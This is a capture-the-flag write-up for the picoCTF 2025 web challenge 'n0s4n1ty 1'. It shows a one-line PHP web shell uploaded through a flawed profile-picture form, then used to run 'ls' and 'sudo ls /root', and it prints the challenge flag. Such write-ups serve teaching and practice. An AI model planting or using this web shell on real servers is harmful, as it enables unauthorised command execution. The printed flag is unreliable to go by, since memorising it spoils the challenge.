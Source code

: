 # :briefcase: n0s4n1ty 1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application [here](https://play.picoctf.org/practice/challenge/482)!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try uploading any file

    ![image2](images/image2.png)

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path `>` Because we haven't entered parameter yet, it will displayed like that 

    ![image3](images/image3.png)

    Enter the URL with `?command=ls`

    ![image4](images/image4.png)

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    ![image5](images/image5.png)

    Read it

    ![image6](images/image6.png)

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

- `system` — Execute an external program and display the output.
- File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

- [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
- [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
- [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)

---

# :hammer_and_wrench: Tools used

None

